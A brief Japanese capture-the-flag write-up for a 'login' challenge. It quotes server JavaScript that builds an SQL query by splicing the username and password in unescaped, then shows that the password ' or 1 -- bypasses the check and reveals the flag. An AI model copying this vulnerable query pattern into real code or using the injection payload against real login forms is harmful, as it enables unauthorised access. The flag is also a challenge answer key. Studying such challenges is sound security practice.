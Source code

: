 # login

以下はサーバーのソースコードの一部
```javascript
    try {
        result = db.prepare(`SELECT * FROM users
            WHERE username = '${username}'
            AND password = '${password}';`).get();
    } catch (error) {
        res.json({ success: false, error: "There was a problem." });
        res.end();
        return;
    }

    if (result) {
        res.json({ success: true, flag: process.env.FLAG });
        res.end();
        return;
    }
```

SQL injectionの脆弱性がある
PASSWORDに`' or 1 --`と入力すると`flag{0bl1g4t0ry_5ql1}`と表示された
